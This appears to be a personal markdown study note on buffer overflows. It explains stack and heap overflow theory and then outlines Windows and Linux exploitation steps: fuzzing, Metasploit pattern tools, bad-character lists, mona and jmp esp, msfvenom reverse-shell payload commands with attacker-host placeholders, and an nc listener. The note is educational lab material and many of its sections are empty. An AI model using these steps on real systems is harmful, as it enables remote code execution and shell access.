 # buffer overflow

![Image result for buffer overflow](https://dpsvdv74uwwos.cloudfront.net/statics/img/ogimage/buffer-overflow-attacks.png)

[TOC]




## types


### stack based


A technically inclined user may exploit stack-based buffer overflows to manipulate the program to their advantage in one of several ways:

- By overwriting a local variable that is located near the vulnerable buffer on the stack, in order to change the behavior of the program
- By overwriting the return address in a [stack frame](https://en.wikipedia.org/wiki/Stack_frame). Once the function returns, execution will resume at the return address as specified by the attacker - usually a user-input filled buffer
- By overwriting a function pointer[[1\]](https://en.wikipedia.org/wiki/Buffer_overflow#cite_note-1) or [exception handler](https://en.wikipedia.org/wiki/Exception_handler), which is subsequently executed
- By overwriting a local variable (or pointer) of a different stack frame, which will be used by the function which owns that frame later  


![Image result for stack based  buffer overflow](https://payatu.com/wp-content/uploads/2018/01/c_prog_mem_layout.jpg)

### heap based

A buffer overflow occurring in the heap data area is referred to as a heap overflow and is exploitable in a manner different from that of stack-based overflows. Memory on the heap is dynamically allocated by the application at run-time and typically contains program data. Exploitation is performed by corrupting this data in specific ways to cause the application to overwrite internal structures such as linked list pointers. The canonical heap overflow technique overwrites dynamic memory allocation linkage (such as [malloc](https://en.wikipedia.org/wiki/Malloc) meta data) and uses the resulting pointer exchange to overwrite a program function pointer




<img src="https://www.researchgate.net/profile/Roshan_Ragel/publication/230559751/figure/fig6/AS:669389712027653@1536606352473/Heap-based-Buffer-Overflow-Attack.png" alt="Image result for heap based buffer overflow" style="zoom:50%;" />

## exploitation

### windows buffer overflow

#### discovering vulnerablity 


we discover a application is vulnerable to buffer overflow  by fuzzing the application with a fuzzer

### introduction to immunity debuuger

#### adding the application to  imunnity debugger

####  

#### fuzzing the application 

a fuzzer  fuzzes the application with in an random incremental order such that the application stops when it detects a crash or timeout from the application we interact

#### replicating the crash 

we replicate crash by sending the appliation with value at which it crashed 

#### controlling the EIP

##### locating eip  by creating unique pattern

```
msf-pattern_create -h
msf-pattern_create -l length of buffer

```



##### locating the offset address of eip

```
msf-pattern_offset -h
msf-pattern_offset -l lengthofbuffer -q stringfromeip
```



#### locating space for shell code

##### checking for bad charcters

```
"\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```

![](download.png)

##### redirecting the execution flow

##### finding the return address

 ##### introduction to mona

```
!mona
```



##### identifying the module with out aslr,dep,seh

##### nasm shell

```
msf-nasm_shell

nasm>jmp esp

!mona 
!mona modules 
!mona find -s "instruction " -m "module to search"

```



#### genrating shellcode

```
msfvenom -p windows/shell_reverse_tcp lhost=attackerip lport=attackerport -f fileformat -e x86/shikata_ga_nai -b "badcharcters"
```



#### optimising the shellcode



#### getting  reverse shell

```
nc -nlvp port to connect
```



#### improving the exploit







### linux buffer overflow

#### discovering the vulnerablity

### replicating the crash

### introduction to the edb(evans debugger)

```
edb
```



##### adding the applcation to the edb

```

```



### controlling the EIP

#### locating the eip using unique pattern 

```
msf-pattern_create -l string
```



#### locating the offset using the unique pattern

```
msf-pattern_offset -q string
```



### locating Space for shell code



#### geting opcodes

```
msf-nasm_shell
nasm>
nasmm>
```



### checking for bad charcters

```
\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```

![](download.png)

### finding a return address

```

```



### genrating shellcode

```
msfvenom -p linux/x86/shell_reverse_tcp lhost=ip of attacker lport=port to connect -b "badcharcters here" -f fileformat -o outputname
```



### modfying shellcode

```
msfvenom -p linux/x86/shell_reverse_tcp lhost=ip of attacker lport=port to connect -b "badcharcters here" -f fileformat -v shellcode
```



### getting shell

```
nc -nlvp port 
```

### buuferoverflow exploits
####  (
https://github.com/5bhuv4n35h/buffer_overflow/tree/master/buffer_exploits)


### practice applications
####  (https://github.com/5bhuv4n35h/buffer_overflow/tree/master/applications)
